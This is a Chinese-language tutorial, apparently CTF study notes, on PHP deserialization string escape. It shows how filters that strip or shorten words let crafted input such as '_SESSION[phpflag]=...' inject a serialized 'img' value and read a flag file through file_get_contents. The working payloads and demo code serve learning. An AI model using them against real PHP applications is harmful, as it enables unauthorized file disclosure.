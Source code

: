 ## **反序列化逃逸例子**

改变序列化长度，长度必须一样，拼接遇到;}则停，长度不可以更短。

PHP反序列化字符逃逸
```
<?php
$a = array('123', 'abc', 'defg');
var_dump(serialize($a));
?>
```

结果
```
string(49) "a:3:{i:0;s:3:"123";i:1;s:3:"abc";i:2;s:4:"defg";}" 
```

反序列化
```
<?php
//$a = array('123', 'abc', 'defg');
//var_dump(serialize($a));
//"a:3:{i:0;s:3:"123";i:1;s:3:"abc";i:2;s:4:"defg";}"
$b = 'a:3:{i:0;s:3:"123";i:1;s:3:"abc";i:2;s:4:"defg";}';
var_dump(unserialize($b));
?>
```

运行结果

```
array(3) { [0]=> string(3) "123" [1]=> string(3) "abc" [2]=> string(4) "defg" } 
```

  我们可以看到在后端中，反序列化是一";}结束的，如果我们把";}带入需要反序列化的字符串中（除了结尾处），是不是就能让反序列化提前结束后面的内容就丢弃了呢？\
  我们把第二个值abc换成abc";i:2;s:5:"qwert";}

```
<?php
//$a = array('123', 'abc', 'defg');
//var_dump(serialize($a));
//"a:3:{i:0;s:3:"123";i:1;s:3:"abc";i:2;s:4:"defg";}"
$b = 'a:3:{i:0;s:3:"123";i:1;s:3:"abc";i:2;s:5:"qwert";}";i:2;s:4:"defg";}';
var_dump(unserialize($b));
?>
```

运行结果

```
array(3) { [0]=> string(3) "123" [1]=> string(3) "abc" [2]=> string(5) "qwert" } 
```

成功的反序列化出我们自己定义的内容，丢弃了原先的内容（i:2;s:4:"defg"）




^
## **反序列化字符串逃逸。**
```
extract($_POST);
//接收POST参数值，覆盖变为变量和变量值。

//此时会默认$_SESSION数组中有个img的值为 base64_encode('guest_img.png')
//else中可以看出即使主动传参img_path也无法使用
if(!$_GET['img_path']){
    $_SESSION['img'] = base64_encode('guest_img.png');
}else{
    $_SESSION['img'] = sha1(base64_encode($_GET['img_path']));
}

//序列化$_SESSION数组
$serialize_info = filter(serialize($_SESSION));
function filter($img){
    $filter_arr = array('php','flag','php5','php4','fl1g');
    $filter = '/'.implode('|',$filter_arr).'/i';
    return preg_replace($filter,'',$img);//替换为空
}

//反序列化后提取数组中img的值 来获取文件内容。
$userinfo = unserialize($serialize_info);
echo file_get_contents(base64_decode($userinfo['img']));
//最终为了读d0g3_f1ag.php文件内容。
}
```
分析
```
通过extract($_POST);
接收POST参数值，变为$_SESSION中变量和值，
再利用序列化后会过滤字符为空格，构造字符串
实现将后面那个默认有个img的数组键值抛弃
只保留一个自己传的img键值，其中值为ZDBnM19mMWFnLnBocA==（d0g3_f1ag.php）
最后反序列化是实现文件读取。

```
测试
```
<?php
$_SESSION['phpflag']=';s:3:"img";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}';
$_SESSION['img'] = base64_encode('guest_img.png');


//序列化$_SESSION数组
echo $serialize_info = filter(serialize($_SESSION));
function filter($img){
    $filter_arr = array('php','flag','php5','php4','fl1g');
    $filter = '/'.implode('|',$filter_arr).'/i';
    return preg_replace($filter,'',$img);
}

//反序列化
echo '<br>';
print_r(unserialize($serialize_info));

Array
(
    [";s:50:] => img
    [img] => ZDBnM19mMWFnLnBocA==
)
```
所以POST传参
```
_SESSION[phpflag]=;s:3:"img";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}
```

列题：
<https://www.cnblogs.com/g0udan/p/12216207.html>

^
## **序列化后某字符被替换成短字符，导致可以被逃逸**
```
$profile['nickname'] = 'where";s:5:"photo";s:5:"/flag";}';
假设序列化后
string(32) "where";s:5:"photo";s:5:"/flag";}"
匹配恶意where字符，替换为hack，少一个字符。
则只要多加where，全部替换，s:总数不变，就可以实现包含字符尾部的s:5:"photo";s:5:"/flag";}。
```